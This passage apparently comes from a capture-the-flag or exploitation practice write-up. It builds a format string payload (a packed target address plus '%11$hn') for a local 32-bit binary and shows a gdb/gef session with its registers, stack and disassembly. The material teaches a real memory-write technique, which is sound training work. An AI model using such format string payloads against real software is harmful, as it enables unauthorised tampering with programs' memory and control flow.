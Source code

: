 Let's write the payload to a file named `exp` so we can debug it in `gdb`

Payload: `d4mianwayne@oracle:~/Pwning/fmt$ python -c 'import struct; print(struct.pack("<I", 0x804a04c) + "%11$hn")' > exp `

Running it in `gdb`:-

```r
gef➤  r < exp
Starting program: /home/d4mianwayne/Pwning/fmt/level2 < exp
Give me something to say!
L�
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x5       
$ebx   : 0x0       
$ecx   : 0x5       
$edx   : 0xf7fae890  →  0x00000000
$esp   : 0xffffcf80  →  0x00000000
$ebp   : 0xffffcfe8  →  0x00000000
$esi   : 0xf7fad000  →  0x001d7d6c
$edi   : 0x0       
$eip   : 0x0804863e  →  <main+147> mov eax, ds:0x804a04c
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf80│+0x0000: 0x00000000	 ← $esp
0xffffcf84│+0x0004: 0x00c30000
0xffffcf88│+0x0008: 0x00000000
0xffffcf8c│+0x000c: 0xffffd094  →  0xffffd260  →  "/home/d4mianwayne/Pwning/fmt/level2"
0xffffcf90│+0x0010: 0x00000000
0xffffcf94│+0x0014: 0x00000000
0xffffcf98│+0x0018: 0x00000000
0xffffcf9c│+0x001c: 0x0804a04c  →  0x00000004
───────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048634 <main+137>       mov    ah, 0x50
    0x8048636 <main+139>       call   0x8048420 <printf@plt>
    0x804863b <main+144>       add    esp, 0x10
 →  0x804863e <main+147>       mov    eax, ds:0x804a04c
    0x8048643 <main+152>       test   eax, eax
    0x8048645 <main+154>       je     0x8048669 <main+190>
    0x8048647 <main+156>       sub    esp, 0xc
    0x804864a <main+159>       push   0x804873a
    0x804864f <main+164>       call   0x8048460 <puts@plt>
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "level2", stopped 0x804863e in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804863e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x5       
$ebx   : 0x0       
$ecx   : 0x5       
$edx   : 0xf7fae890  →  0x00000000
$esp   : 0xffffcf80  →  0x00000000
$ebp   : 0xffffcfe8  →  0x00000000
```